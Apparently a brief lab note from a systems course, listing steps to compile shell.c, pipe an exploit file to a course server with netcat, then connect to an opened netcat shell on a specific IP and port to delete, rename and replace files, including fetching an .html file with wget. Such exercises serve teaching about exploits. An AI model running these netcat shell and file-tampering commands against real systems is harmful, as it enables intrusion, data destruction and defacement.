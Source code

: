 open terminal
cd into the directory stores shell.c
	gcc shell shell.c
	./shell
	cat hack.dat | nc cps110.cs.duke.edu 8115

open another terminal
	nc 152.3.137.230 22222
	using commands like "ls", "cd", "rm" & "mv" to view all the files and remove/rename files
	using command wget --no-check-certificate [github link] to copy .html file to the server.
	
